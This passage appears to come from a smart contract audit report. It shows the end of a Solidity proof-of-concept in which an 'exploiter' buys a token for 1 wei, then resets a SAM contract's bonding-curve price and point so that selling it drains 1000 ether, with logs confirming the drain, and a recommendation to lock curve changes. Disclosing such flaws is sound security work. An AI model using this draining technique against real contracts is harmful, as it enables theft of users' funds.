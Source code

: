```solidity

        sam.create(
            address(edition),
            0, // base
            1, // infl price
            type(uint32).max, // infl point
            1000, 0, 0 // artist, golden egg, affiliate
        );

        bytes32[] memory affProof = new bytes32[](0);
        sam.buy{value: 1}(
            address(edition),
            exploiter,
            1,
            address(0),
            affProof
        );

        sam.setInflectionPrice(address(edition), 500 ether);
        sam.setInflectionPoint(address(edition), 1);

        uint[] memory tokenIds = new uint[](1);
        tokenIds[0] = 1;
        sam.sell(
            address(edition),
            tokenIds,
            1 ether,
            exploiter
        );

        console.log("Ending Exploiter Balance:", exploiter.balance);
        console.log("Ending SAM Balance:", address(sam).balance);

    }
}
```

```solidity
Logs:
    Starting Exploiter Balance: 1
    Starting SAM Balance: 1000000000000000000000
    Ending Exploiter Balance: 1000000000000000000001
    Ending SAM Balance: 0
```

**Recommendations**

It's crucial that the logic that stops a user from adjusting a bonding curve comes from a trusted source. This can be implemented in many possible ways: locally storing a value (like the `data.supply` value or a boolean flag) that locks curve changes or validating the codehash of the edition.

**Review**
